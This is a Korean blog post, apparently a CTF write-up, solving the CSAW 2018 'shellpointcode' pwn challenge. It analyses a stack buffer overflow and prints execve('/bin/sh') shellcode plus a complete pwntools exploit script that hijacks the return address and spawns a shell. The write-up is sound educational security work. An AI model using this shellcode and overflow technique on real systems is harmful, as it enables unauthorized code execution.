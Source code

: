 ```yaml
---
layout: post
title: "[CSAW CTF Quals 2018] shellpointcode(shell->code) 풀이"
date: 2018-12-08 00:41
categories: "[Pwn]CTF"
tags: N0N4M3D
---
```


>### [shellpointcode](/pic/CTF/CSAW2018/shellpointcode/shellpointcode)

- - -
# 1. 코드 분석

{: refdef: style="text-align: center;"}
![checksec](/pic/CTF/CSAW2018/shellpointcode/checksec.png)
{: refdef}

문제 이름도 그렇고, `NX`가 안걸려 있는 걸 보니 쉘코드를 사용하라는 문제인 것 같네요.

{: refdef: style="text-align: center;"}
![main](/pic/CTF/CSAW2018/shellpointcode/main.png)
{: refdef}

`main`은 볼께 없네요

{: refdef: sytle="text-align: center;"}
![nononode](/pic/CTF/CSAW2018/shellpointcode/nononode.png)
{: refdef}

각각 15바이트를 받을 수 있고 `BOF`가 일어날 곳은 딱히 없어요

{: refdef: sytle="text-align: center;"}
![printnode](/pic/CTF/CSAW2018/shellpointcode/printnode.png)
{: refdef}

어떤 주소값을 `leak` 해주고, 그 주소값 다음에 있는 문자열을 출력해줘요

{: refdef: sytle="text-align: center;"}
![goodbye](/pic/CTF/CSAW2018/shellpointcode/goodbye.png)
{: refdef}

이니셜을 `s`에 저장해요. 그런데 변수 `s`는 `rbp-0x3`에 위치해 있는데 

`fgets` 함수로 32 바이트나 받아버려서 `BOF`가 일어나네요!!!

- - -

# 2. 프로그램 분석

{: refdef: sytle="text-align: center;"}
![run](/pic/CTF/CSAW2018/shellpointcode/run.png)
{: refdef}

{: refdef: sytle="text-align: center;"}
![stack](/pic/CTF/CSAW2018/shellpointcode/stack.png)
{: refdef}

터미널에서 위와 같이 실행시키고 `gdb`를 이용해 `goodbye` 함수가 끝나기 직전에 브레이크포인트를 잡고 분석해봤어요. 
저 스택 화면을 보기 쉽게 아래의 그림으로 정리해봤어요.

{: refdef: sytle="text-align: center;"}
![struct](/pic/CTF/CSAW2018/shellpointcode/struct.png)
{: refdef}

`aslr`로 인해 주소가 계속 바뀌어도 저 스택의 형태는 일정하게 유지가 돼요.

이제 취약점들도 찾았겠다 스택 구조도 파악했겠다 찾을꺼 다 찾았으니 삽질을 시작해볼까요?

- - -

# 3. 공격 방법

1시간 반? 정도 이런저런 삽질을 해본 결과 공격할 수 있는 방법을 찾게되었어요! 

1. `node 1`에 쉘코드를 삽입한다

2. `node 2`에 `"///bin/sh\x00"` 문자열을 삽입한다

3. `fgets`에서 일어나는 `bof` 취약점을 이용해 `goodbye`의 `ret`를 `node 1`으로 변경한다

4. `goodbye` 함수가 끝나고 `rsp` 값이 `node 2+0x2` 주소를 가질 수 있도록 값을 조작한다

5. exploit 성공?

쉘코드는 15바이트 내로 다음과 같이 작성했어요

```asm
push rbx	/* rbx값 == 0x00 */
pop rax		/* rax == 0x00 */
pop rdi		/* rdi == rsp */
push rax	/* push 0x00 */
pop rdx		/* rdx == 0x00 */
push rax	/* push 0x00 */
pop rsi		/* rsi == 0x00 */
mov al,0x3b	/* al == 0x3b */
syscall
```

64비트 시스템 콜을 이용해 `execve('rdi',0,0)`을 실행하는 쉘코드입니다.

`rbx`의 값이 0x00이란 것은 `gdb`로 분석하면서 알았어요

- - -
쉘코드를 만들기 위해 다음의 사이트를 참고

> https://defuse.ca/online-x86-assembler.htm

> http://crasy.tistory.com/75

- - -

저 시나리오 대로 값들을 넣으면 스택 구조는 다음과 같이 될꺼에요.

{: refdef: sytle="text-align: center;"}
![attack](/pic/CTF/CSAW2018/shellpointcode/attack.png)
{: refdef}

저기서 `goodbye` 함수가 끝나면서 `ret`을 실행시키면 `rip`는 `node 1`을 가리킬 것 이고, 

스택 구조는 다음과 같이 변하게 되요.

{: refdef: sytle="text-align: center;"}
![attack2](/pic/CTF/CSAW2018/shellpointcode/attack2.png)
{: refdef}

이 상태에서 저 쉘코드가 실행되면 `execve("/bin/sh\x00",0,0)`가 만들어지고 실행됩니다ㅎㅎ

아 참고로 `"/bin/sh\x00"`가 아닌 `"///bin/sh\x00"`으로 적어주는 이유는 `fgets` 함수로 

문자열을 넣으면 `\x0a`와 `\x00`을 문자열 끝에 넣어주는데 이게 `"/b"`까지 침범해서 `"//"`를 추가해준 거에요

- - - 

# 4. 공격 코드

```python
from pwn import *
#context.log_level = "debug"

shellcode = "\x53\x58\x5F\x50\x5A\x50\x5E\xB0\x3B\x0F\x05"
s = remote('localhost', 4444)
#s = process('./shellpointcode')

s.recvuntil('node 1:  \n')
s.sendline(shellcode.rjust(15,'\x90'))
s.recvuntil('node 2: \n')
s.sendline('///bin/sh\x00')

s.recvuntil("node.next: ")
leak = s.recvuntil('\n')
ret = int(leak,16)+40
log.info(hex(ret))

#pause()

s.recvuntil("initials?\n")

payload = "A"*11
payload += p64(ret)
payload += p64(int(leak,16)+10)
s.sendline(payload)

#pause()

s.interactive()
```
